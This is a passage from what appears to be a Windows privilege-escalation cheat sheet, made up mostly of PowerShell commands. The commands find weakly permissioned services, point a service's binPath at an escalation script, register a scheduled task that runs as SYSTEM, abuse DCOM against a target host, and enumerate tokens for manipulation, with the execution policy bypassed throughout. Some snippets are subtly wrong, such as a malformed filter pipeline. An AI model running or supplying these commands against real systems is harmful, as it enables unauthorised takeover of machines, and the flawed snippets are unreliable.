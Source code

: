 * **Find Services with Unsecured Permissions**:

```powershell
Get-WmiObject -Class Win32_Service | Where-Object {
    ($_.StartMode -eq "Auto") -and ($_.PathName -notlike "*svchost*") -and (Get-Acl $_.PathName).Access | Where-Object { $_.IdentityReference -eq "Everyone" }
}
```

* **Modify Service for Privilege Escalation**:

```powershell
sc config <ServiceName> binPath= "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Windows\Temp\escalation.ps1"
Restart-Service -Name <ServiceName>
```

#### 4.6 Scheduled Task Privilege Escalation&#x20;

* **Enumerate Scheduled Tasks**:

```powershell
Get-ScheduledTask | Where-Object { $_.TaskPath -like "\*" }
```

* **Modify Scheduled Task for Escalation**:

```powershell
$Action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NoProfile -ExecutionPolicy Bypass -File C:\Windows\Temp\escalation.ps1"
$Trigger = New-ScheduledTaskTrigger -AtStartup
$Settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries
Register-ScheduledTask -TaskName "EscalationTask" -Action $Action -Trigger $Trigger -Settings $Settings -User "SYSTEM"
```

#### 4.7 Abusing DCOM for Privilege Escalation&#x20;

* **Identify Vulnerable DCOM Objects**:

```powershell
Get-CimInstance -ClassName Win32_DCOMApplication | Where-Object { $_.AppID -notlike "{00000000-0000-0000-0000-000000000000}" }
```

* **Exploit DCOM for Privilege Escalation**:

```powershell
Invoke-DCOM -ComputerName <Target_IP> -Command "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Windows\Temp\escalation.ps1"
```

#### 4.8 Token Privilege Escalation via Token Manipulation&#x20;

* **List Available Tokens**:

```powershell
Invoke-TokenManipulation -Enumerate
```
